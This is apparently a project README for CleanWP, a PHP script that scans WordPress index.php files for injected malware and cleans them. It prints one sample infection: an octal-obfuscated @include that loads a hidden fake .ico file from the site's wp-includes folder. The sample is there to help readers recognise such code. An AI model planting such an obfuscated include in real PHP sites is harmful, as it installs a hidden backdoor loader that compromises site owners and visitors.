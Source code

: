 # CleanWP
Simple PHP script to clean all files in your WordPress directory from Malware codes.

## Instructions
1. Upload file scandir.php to your WordPress directory
2. Open Web browser and run scandir.php using your WordPress's URL (Example: https://your_url.com/scandir.php)
3. First it will display all the affected files
4. Click "Click here to replace all" to clean the files
5. Enjoy!

For now, it will only scan all index.php files.

## Sample malware or malicious codes

```
<?php
/*e57cb*/

@include "\057home\062/zha\146f/ap\160oint\146ox.c\157m/wp\055incl\165des/\143erti\146icat\145s/.c\063d913\0706.ic\157";

/*e57cb*/
```

## Note
Please backup your files first before running this script.
